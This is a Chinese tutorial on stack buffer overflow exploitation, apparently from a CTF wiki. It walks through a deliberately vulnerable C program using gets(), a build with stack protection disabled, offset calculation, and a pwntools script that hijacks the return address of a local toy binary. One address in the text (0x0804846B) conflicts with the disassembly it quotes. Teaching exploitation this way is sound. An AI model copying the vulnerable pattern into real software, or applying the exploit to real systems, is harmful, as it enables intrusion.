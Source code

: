 .. role:: raw-latex(raw)
   :format: latex
..

栈溢出原理
==========

介绍
====

栈溢出指的是程序向栈中某个变量中写入的字节数超过了这个变量本身所申请的字节数，因而导致栈中与其相邻的变量的值被改变。这种问题是一种特定的缓冲区溢出漏洞(比如说，还有向堆中写，向bss段写)。而对于黑客来说，栈溢出漏洞轻则可以使得程序崩溃，重则可以使得攻击者控制程序执行流程。此外，我们也不难发现，发生栈溢出的基本前提是

-  程序必须向栈上写入数据。
-  写入的数据大小没有被良好地控制。

基本示例
========

最典型的栈溢出利用是覆盖程序的返回地址为攻击者所控制的地址，\ **当然需要确保这个地址的代码可以执行**\ 。下面，我们举一个简单的例子：

.. code:: c

    #include <stdio.h>
    #include <string.h>
    void success() { puts("You Hava already controlled it."); }
    void vulnerable() {
      char s[12];
      gets(s);
      puts(s);
      return;
    }
    int main(int argc, char **argv) {
      vulnerable();
      return 0;
    }

这个程序的主要目的读取一个字符串，并将其输出。\ **我们希望可以控制程序执行success函数。**

我们利用如下命令对齐进行编译

.. code:: shell

    ➜  stack-example gcc -m32 -fno-stack-protector stack_example.c -o stack_example
    stack_example.c: In function ‘vulnerable’:
    stack_example.c:6:3: warning: implicit declaration of function ‘gets’ [-Wimplicit-function-declaration]
       gets(s);
       ^
    /tmp/ccPU8rRA.o：在函数‘vulnerable’中：
    stack_example.c:(.text+0x27): 警告： the `gets' function is dangerous and should not be used.

可以看出gets本身是一个危险函数。而它因为其从不检查输入字符串的长度，而是以回车来判断是否输入结束，所以很容易可以导致栈溢出，

    历史上，\ **莫里斯蠕虫**\ 第一种蠕虫病毒就利用了gets这个危险函数实现了栈溢出。

此外，-m32指的是生成32位程序，\ ``-fno-stack-protector``
指的是不开启堆栈保护，即不生成canary，这是为了更加方便地介绍栈溢出的基本利用方式；而且该程序并没有开启ASLR保护。之后，我们利用IDA来反编译一下二进制程序并查看vulnerable函数
。可以看到

.. code:: c

    int vulnerable()
    {
      char s; // [sp+4h] [bp-14h]@1

      gets(&s);
      return puts(&s);
    }

该字符串距离ebp的长度为0x14，那么相应的栈结构为

.. code:: text

                                               +-----------------+
                                               |     retaddr     |
                                               +-----------------+
                                               |     saved ebp   |
                                        ebp--->+-----------------+
                                               |                 |
                                               |                 |
                                               |                 |
                                               |                 |
                                               |                 |
                                               |                 |
                                  s,ebp-0x14-->+-----------------+

并且，我们可以通过IDA获得success的地址，其地址为0x0804846B。

.. code:: asm

    .text:0804843B success         proc near
    .text:0804843B                 push    ebp
    .text:0804843C                 mov     ebp, esp
    .text:0804843E                 sub     esp, 8
    .text:08048441                 sub     esp, 0Ch
    .text:08048444                 push    offset s        ; "You Hava already controlled it."
    .text:08048449                 call    _puts
    .text:0804844E                 add     esp, 10h
    .text:08048451                 nop
    .text:08048452                 leave
    .text:08048453                 retn
    .text:08048453 success         endp

那么如果我们读取的字符串为

::

    0x14*'a'+'bbbb'+success_addr

那么，由于gets会读到回车才算结束，所以我们可以直接读取所有的字符串，并且将saved
ebp覆盖为bbbb，将retaddr覆盖为success\_addr,即，此时的栈结构为

.. code:: text

                                               +-----------------+
                                               |    0x0804843B   |
                                               +-----------------+
                                               |       bbbb      |
                                        ebp--->+-----------------+
                                               |                 |
                                               |                 |
                                               |                 |
                                               |                 |
                                               |                 |
                                               |                 |
                                  s,ebp-0x14-->+-----------------+

但是需要注意的是，由于在计算机内存中，对应的每个值都是按照字节存储的。一般情况下都是采用小端存储，即0x0804843B的存储是如下结构

.. code:: text

    \x3b\x84\x04\x08

但是，我们又不能直接在终端将这些字符给输入进去，在终端输入的时候，x等也算一个单独的字符。。所以我们需要想办法将:raw-latex:`\x`3b之类的作为一个字符输入进去。那么此时我们就需要使用一波pwntools了(关于如何安装以及基本用法，请自行github)，这里利用pwntools的代码如下：

.. code:: python

    #coding=utf8
    from pwn import *
    # 构造与程序交互的对象
    sh = process('./stack_example')
    success_addr = 0x0804843b
    # 构造payload
    payload = 'a' * 0x14 + 'bbbb' + p32(success_addr)
    print p32(success_addr)
    # 向程序发送字符串
    sh.sendline(payload)
    # 将代码交互转换为手工交互
    sh.interactive()

执行一波代码，可以得到

.. code:: shell

    ➜  stack-example python exp.py
    [+] Starting local process './stack_example': pid 61936
    ;\x84\x0
    [*] Switching to interactive mode
    aaaaaaaaaaaaaaaaaaaabbbb;\x84\x0
    You Hava already controlled it.
    [*] Got EOF while reading in interactive
    $ 
    [*] Process './stack_example' stopped with exit code -11 (SIGSEGV) (pid 61936)
    [*] Got EOF while sending in interactive

可以看到我们确实已经执行success函数。

小总结
======

上面的示例其实也展示了栈溢出中比较重要的几个步骤:

寻找危险函数
------------

通过寻找危险函数，我们快速确定程序是否可能有栈溢出，以及有的话，栈溢出的位置在哪里。

常见的危险函数如下

-  输入
-  gets，直接读取一行，忽略':raw-latex:`\x`00'
-  scanf
-  vscanf
-  输出
-  sprintf
-  字符串
-  strcpy，字符串复制，遇到':raw-latex:`\x`00'停止
-  strcat，字符串拼接，遇到':raw-latex:`\x`00'停止
-  bcopy

确定填充长度
------------

这一部分主要是计算\ **我们所要操作的地址与我们所要覆盖的地址的距离**\ 。常见的操作方法就是打开IDA，根据其给定的地址计算偏移。一般变量会有以下几种索引模式

-  相对于栈基地址的的索引
-  相对应栈顶指针的索引
-  直接地址索引

其中相对于栈基地址的索引，可以直接通过查看EBP相对偏移获得；相对于栈顶指针的索引，一般需要进行调试，之后还是会转换到第一种问题。通过绝对地址索引的，就相当于直接给定了地址。一般来说，我们会有如下的覆盖需求

-  **覆盖函数返回地址**\ ，这时候就是直接看EBP即可。
-  **覆盖栈上某个变量的内容**\ ，这时候就需要更加精细的计算了。
-  **覆盖bss段某个变量的内容**\ 。
-  等等

之所以我们想要覆盖某个地址，是因为我们想通过覆盖地址的方法来直接或者间接地控制程序执行流程。

**参考阅读**

`stack buffer
overflow <https://en.wikipedia.org/wiki/Stack_buffer_overflow>`__

http://bobao.360.cn/learning/detail/3694.html
